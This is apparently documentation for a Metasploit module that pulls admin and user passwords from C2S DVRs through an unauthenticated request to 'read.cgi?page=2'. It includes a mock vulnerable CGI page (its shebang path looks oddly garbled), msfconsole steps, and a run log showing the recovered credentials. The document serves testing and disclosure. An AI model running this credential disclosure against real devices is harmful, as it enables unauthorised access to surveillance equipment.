 ## Description

C2S DVR allows an unauthenticated user to disclose the username
& password by requesting the javascript page 'read.cgi?page=2'.
This may also work on some cameras including IRDOME-II-C2S, IRBOX-II-C2S.

## Vulnerable Application

This module has been verified against the mock vulnerable page listed below.

### Mock Vulnerable Page

These instructions will create a cgi environment and a vulnerable perl application for exploitation.
Kali rolling (2019.1) was utilized for this tutorial, with apache.

#### Setup

1. Enable cgi: `a2enmod cgid`
2. `mkdir /var/www/html/cgi-bin`
3. Enable folder for cgi execution: add `ScriptAlias "/cgi-bin/" "/var/www/html/cgi-bin/"` to `/etc/apache2/sites-enabled/000-default.conf ` inside of the `VirtualHost` tags
4. Create the vulnerable page by writing the following text to `/var/www/html/cgi-bin/read.cgi`:

```
#!/data/data/hilled.pwnterm/files/usr/bin/perl
use CGI qw(:standard);
$query = new CGI;
print $query->header( -type=> "text/javascript"),
$query->import_names( 'Q' );

my $data = <<'DATA';
var pw_enflag = "1";
var pw_adminpw = "12345";
var pw_retype1 = "12345";
var pw_userpw = "56789";
var pw_retype2 = "56789";
var pw_autolock = "0";
DATA

if ($Q::page == 2) {
  print $data;
}
```

## Verification Steps

1. Start msfconsole
2. ```use auxiliary/gather/c2s_dvr_password_disclosure```
3. ```set rhosts [rhosts]```
4. ```run```

## Scenarios

### Against the Mock page listed above

  ```
    resource (c2s.rb)> use auxiliary/gather/c2s_dvr_password_disclosure
    resource (c2s.rb)> set rhosts 127.0.0.1
    rhosts => 127.0.0.1
    resource (c2s.rb)> set verbose true
    verbose => true
    resource (c2s.rb)> exploit
    [*] Attempting to load data from /cgi-bin/read.cgi?page=2
    [+] Found: admin:12345
    [+] Found: user:56789
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    [*] Starting persistent handler(s)...
    msf5 auxiliary(gather/c2s_dvr_password_disclosure) > creds
    Credentials
    ===========
    
    host       origin     service        public  private  realm  private_type
    ----       ------     -------        ------  -------  -----  ------------
    127.0.0.1  127.0.0.1  80/tcp (http)  admin   12345           Password
    127.0.0.1  127.0.0.1  80/tcp (http)  user    56789           Password
  ```
